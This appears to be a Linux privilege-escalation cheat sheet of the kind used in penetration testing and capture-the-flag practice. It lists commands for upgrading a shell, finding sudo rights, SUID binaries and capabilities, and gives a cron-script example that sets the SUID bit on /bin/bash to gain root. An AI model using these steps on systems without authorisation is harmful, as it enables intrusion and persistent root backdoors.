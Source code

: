 - #### Try to upgrade to TTY shell (if you have a basic listener).
`python -c 'import pty; pty.spawn("/bin/bash")'`
or e.g. if that fails:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

- #### Check if Kernel / OS is out of date

`uname -a`
`cat /etc/os-release`
or
`cat /etc/*release` for older systems.

Find a known CVE and its related exploits using google/searchsploit. Make sure you understand what the exploit does so as not to break anything on the server.

---

- #### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

---

- #### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

---

- #### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

---

- #### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode.

---
